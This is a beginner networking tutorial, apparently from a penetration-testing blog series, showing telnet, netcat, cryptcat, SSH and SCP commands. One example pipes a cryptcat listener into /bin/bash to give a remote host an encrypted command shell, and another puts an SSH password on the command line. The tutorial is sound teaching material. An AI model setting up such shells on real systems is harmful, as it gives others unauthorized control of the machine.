 ```yaml
---
layout: post
published: true
title: Networking tools and utilities 2.1
tags:
  - PWP
  - Beginner
  - Networking tools and utilities
comments: true
---
```

## Usage of Telnet,Netcat,Socat,Cryptcat,SSH,SCP

## Introduction

I am going to explain these tools with examples, these tools provide interactive communication with another host.
Every tool has there different advantages, check their manual using man command for more.

## Telnet
Telnet is a network protocol works on port 23, it provides a command-line interface to communicate with another host

Mostly it used in port testing, we can use telnet for banner grabbing, I will cover it later in this blog series.

To connect to host/server using telnet
~~~
# telnet -h

# telnet <hostname> <port>
~~~
example
~~~
# telnet 198.137.0.4 1234
~~~
## Netcat/nc

Its most useful utility for our use, It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports.
And it's better than telnet for communication with another device.
~~~
# nc -h
~~~

Lets start a netcat listner in terminal 
~~~
# nc -lvvp 1337
nc -nlvvp 1337
Listening on 0.0.0.0 1337
~~~
Now its listening connection on host ip and 1337 port, lets connect it using another host or you can use another terminal tab just for satisfaction.
~~~
usage: nc <hostip> <port>
~~~
~~~
# nc 192.168.43.209 1337
~~~

try to chat with another host using terminal


## Cryptcat

The formula behind crypcat is: cryptcat = netcat + encryption.
It's a netcat variant that provides encryption over TCP/UDP communication with another host...


Let's play with it..............
~~~
# cryptcat -h
~~~
start cryptcat listner
~~~
# cryptcat -lv -p 1337
listening on [any] 1337 ...
~~~

Ok, so it's listening on 1337 let's connect using another terminal or host.
~~~
# cryptcat 192.168.43.209 1337
~~~
Now chat with another host

We can set -k parameter to make our communication password protected

Ok let's try encrypted reverse shell using cryptcat 
~~~

# cryptcat -k hacker -l -p 1337 0<myfifo | /bin/bash 1>myfifo

~~~

Now connect with it using another host

~~~
# cryptcat -k hacker 192.168.43.209 1337
~~~

You can execute commands on another host site and 

## SSH and SCP

SSH (Secure Shell) is a cryptographic network protocol for operating network services securely over an unsecured network. Typical applications include remote command-line, login, and remote command execution, but any network service can be secured with SSH.
We use it mostly to provide remote access to another host securely over an unencrypted network

SCP(Secure Copy Protocol) copies files between hosts on a network, ssh for data transfer, and uses the same authentication and provides the same security as ssh.
 
_**To connect an ssh client with a host which is running sshd (ssh server) .**_

~~~
# ssh -h
ssh user@host (and enter a password for connection)
~~~
example:
~~~
# ssh hacker@10.10.10.134
~~~
and enter a password, or we can include ssh password also in the same line

~~~
# sshpass -p "hahanoob" ssh hacker@10.10.10.134
~~~

We can also run GUI based commands from Remote SSH. How??

~~~

# ssh hacker@10.10.10.134 "DISPLAY=:0 no hup chrome"
~~~
or 
~~~
# ssh -X  hacker@10.10.10.134  firefox
~~~

To copy files over ssh we have to use scp
~~~
# scp -h
scp <filename> user@host:/filepath
~~~
example

~~~
# scp badguy.txt hacker@10.10.10.134:/home/mrw0r57
~~~

To download file 

~~~
# scp hacker@10.10.10.134:/home/mrw0r57/badguy.txt /home/myuser
~~~

## Conclusion

_**Learn these utilities by practical, we are going to use them in upcoming blog posts**_
